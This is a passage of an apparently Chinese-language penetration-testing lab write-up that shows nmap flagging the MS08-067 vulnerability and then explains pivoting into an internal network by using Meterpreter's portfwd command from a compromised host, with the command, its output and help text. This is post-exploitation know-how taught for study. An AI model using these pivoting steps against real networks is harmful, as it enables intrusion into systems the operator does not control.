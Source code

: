 ```
|          Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary 
|          code via a crafted RPC request that triggers the overflow during path canonicalization.
| 
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspxService detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 12.51 seconds
root@kali:~#
```

现在发现了7.7.7.20(JC)这台机器端口开放比较多,尝试找出JC的漏洞,操作如下: 首先看看JC的80端口运行了什么cms,但是Attacker的浏览器直接访问http://172.16.0.20会无法访问,因为Attacker的网段与JC 不在同一网段,此处有个要注意的内容:

Attention:可以选择使用proxychains设置Attacker的浏览器的代理为Attacker的1080端口的socks4代理入口,也可通过在RD的meterpreter会 话中运行portfwd模块命令,portfwd命令如下:

```
meterpreter &gt; portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20[*] Local TCP relay created: 172.16.0.20:2323 &lt;-&gt; 7.7.7.20:80meterpreter &gt;
meterpreter &gt; portfwd listActive Port Forwards
====================
   Index  Local             Remote       Direction
   -----  -----             ------       ---------   1      172.16.0.20:2323  7.7.7.20:80  Forward1 total active port forwards.
meterpreter &gt;
```

通过访问Attacker的2323端口访问JC的80端口,结果如下:

[![](https://p4.ssl.qhimg.com/t01666c8a995bf2024a.png)](https://p4.ssl.qhimg.com/t01666c8a995bf2024a.png)

这里的portfwd模块不只是名字上的端口转发的意思,目前笔者认为portfwd相当于半个ssh正向代理加一个ssh反向代理组成的综合命令,ssh正向反向代理可参考这里的理解 。ssh正向反向代理理解笔者认为portfwd命令之后Attacker可以通过访问Attacker本身ip的2323端口进而访问到JC的80端口期间发生了3件事。

1.RD访问JC的80端口,这里相当于半个ssh正向代理

2.RD绑定已经访问到的JC的80端口的数据到Attacker的2323端口,这里相当于一个ssh反向代理,相当于RD有Attacker的ssh权限

3.攻击者的浏览器访问攻击者自己的172.16.0.20:2323

portfwd的用法如下:

```
meterpreter &gt; portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L &gt;opt&gt;  The local host to listen on (optional).
     -h        Help banner.
     -l &gt;opt&gt;  The local port to listen on.
     -p &gt;opt&gt;  The remote port to connect on.
     -r &gt;opt&gt;  The remote host to connect on.
meterpreter &gt;
```
